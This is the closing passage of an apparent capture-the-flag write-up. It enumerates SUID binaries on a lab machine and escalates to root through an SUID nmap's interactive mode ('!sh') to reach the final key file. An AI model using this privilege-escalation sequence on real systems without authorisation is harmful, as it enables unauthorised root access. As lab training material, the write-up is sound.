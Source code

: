 {%highlight bash%}
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
{%endhighlight%}

We found the needle in the haystack. What is a nmap binary doing with the suid bit set? Getting us to root is what it is doing. 

I open up [GTFO bins](https://gtfobins.github.io/gtfobins/nmap/) for nmap and see several methods. Starting from the top was probably a good idea.

{%highlight bash%}
robot@linux:/usr/local/bin$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
\# whoami
whoami
root
\# cd /root
cd /root
\# ls
ls
firstboot_done	key-3-of-3.txt
{%endhighlight%}

Now we can get the final keys from the root directory. 

Cool room! 

